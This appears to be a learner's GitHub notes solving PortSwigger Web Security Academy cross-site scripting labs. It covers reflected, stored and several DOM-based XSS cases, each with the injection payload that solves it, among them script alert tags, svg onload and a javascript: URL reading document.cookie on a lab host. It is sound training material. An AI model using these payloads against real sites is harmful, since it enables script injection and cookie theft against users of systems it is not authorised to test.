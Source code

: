 # XSS

# Lab: Reflected XSS into HTML context with nothing encoded

after searching for any key word the website will redirected to other url that contains the keyword in it and also it appears in the html code so simply we can search for:

    <script>alert(1)</script>

an alert will pop up in the page

# Lab: Stored XSS into HTML context with nothing encoded

in this lab see that when you go to post details you'll find form where you can submit your comment it will solved by commenting with:

    <script>alert(1)</script>

this payload will be stored as an comment each time when someone see post details he will recieve an alert bcz browser read this comment as html code

# Lab: DOM XSS in document.write sink using source location.search

inspect the source search for script that contains document.wirte here u'll filn that this script create new img tag and the source contains the search keyword we can use that to close the image tag and inject other html code

script content looks like:

```js
function trackSearch(query) { document.write('<img
  src="/resources/images/tracker.gif?searchTerms='+query+'"
/>'); } var query = (new URLSearchParams(window.location.search)).get('search');
if(query) { trackSearch(query); }
```

the solution:

```html
">
<script>
  alert(1);
</script>
```

# LAB: DOM XSS in innerHTML sink using source location.search

in this lab search keyword are appeared in the html using .innerHTML instead of document.write so script tags will not work there another way which is svg tag with on laod property

```html
<svg onload="alert(1)"></svg>
```

# LAB: DOM XSS in jQuery anchor href attribute sink using location.search source

here we have return link in the main url of send feedback page which is used for back button, in href tags we can inject js code like the following example

```html
<a href="javascript:{your_payload}">click me</a>
```

so the solution will be like that

```
https://0a84006604ccaa3c82516fab00d300f9.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)
```

